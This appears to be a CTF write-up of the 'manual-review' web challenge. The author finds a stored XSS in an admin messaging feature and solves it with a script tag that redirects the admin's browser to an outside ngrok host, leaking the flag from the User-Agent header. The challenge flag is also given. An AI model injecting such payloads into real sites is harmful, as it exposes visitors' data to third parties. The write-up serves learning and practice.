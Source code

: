 **Flag:** ctf{fad65340180f6b4c6f49dad138daeed447cf23f994635481f92551f05dbc6070}

## manual-review {#manual-review}

{% highlight bash %}
For any coffe machine issue please open a ticket at the IT support department.

Flag format: ctf{sha256}

Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.

The challenge was created by Bit Sentinel.
{% endhighlight %}

A web challenge! As always, it turned out I overcomplicated things. After making an account, I had the option of sending messages to admins:

<div>
<center><img src="/images/unbreakable_1_writeup/manual-review-dashboard.png"></center>
</div>

Everything hinted at an XSS, so I entered `<script>alert(1);</script>` and clicked the submit button. As expected, the javascript code was executed.

This was the part where I got stuck. I managed to exfiltrate data from the admin's browser, but I couldn't get the flag. The flag, as it turned out, was in the `User-Agent` header. My final payload:

{% highlight javascript %}
<script>
window.location.href = "https://361c4f4977c5.ngrok.io/yaku";
</script>
{% endhighlight %}
